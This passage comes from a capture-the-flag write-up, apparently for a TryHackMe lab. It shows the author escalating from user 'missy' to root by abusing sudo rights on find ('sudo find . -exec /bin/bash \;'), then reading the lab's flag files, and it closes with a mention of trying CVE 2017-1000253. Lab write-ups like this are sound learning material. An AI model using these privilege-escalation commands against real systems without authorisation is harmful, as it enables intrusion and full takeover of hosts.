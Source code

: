 ```console
    9  quit
   10  sudo -l
   11  find . -exec /bin/sh \; -quit
   12  find -exec /bin/sh \; -quit
   13  sudo find /home -exec /bin/bash \;
   14  ls
   15  cd leonard/
   16  cd rootflag/
   17  su root
   18  id
   19  history
```
This shows that `flag1.txt` is located in `/home/missy/Documents`. The history also gives a strong hint how we can escalate to root, but just to make sure, we can check this user's sudo rights:
```console
[missy@ip-10-10-40-207 ~]$ sudo -l
Matching Defaults entries for missy on ip-10-10-40-207:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-40-207:
    (ALL) NOPASSWD: /usr/bin/find
```
This tells us that we have sudo privileges for the `find` binary! Consulting [GTFOBins](https://gtfobins.github.io/#) once more, we find that we can simply run the following command to gain root privileges:
```console
[missy@ip-10-10-40-207 ~]$ sudo find . -exec /bin/bash \;
```
Thus, we can finally read the flags as follows, finishing this challenge:
```console
[root@ip-10-10-40-207 missy]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@ip-10-10-40-207 missy]# cat /home/missy/Documents/flag1.txt 
THM-42828719920544
[root@ip-10-10-40-207 missy]# cat /home/rootflag/flag2.txt 
THM-168824782390238
```
    
## Second Approach

Even though the challenge was solved, it still bothered me that I didn't manage to make [CVE 2017-1000253](https://www.exploit-db.com/exploits/42887) work. Perhaps this specific CVE did not apply here, but I was motivated to keep looking for alternative ways to escalate to root in a more "overkill" fashion, using a known vulnerability.
